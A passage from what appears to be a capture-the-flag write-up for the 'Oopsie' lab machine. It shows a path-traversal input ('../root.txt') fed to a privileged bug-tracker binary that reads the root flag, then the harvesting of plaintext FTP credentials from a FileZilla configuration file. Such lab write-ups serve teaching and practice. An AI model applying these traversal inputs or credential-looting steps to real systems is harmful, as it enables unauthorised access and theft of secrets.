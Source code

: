 ```
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

Let's try some weird input like a negative number:

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: -1
---------------

cat: /root/reports/-1: No such file or directory
```

So it's bascially just appending our input to a directory string... we can modify it in such a way, that it will print the root.txt for us. 

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```
There we go. We pwned the machine.

## Post Exploitation

For the next challenge we need FTP credentials, which are stored in this file:

```
root@oopsie:/root/.config/filezilla# more filezilla.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```
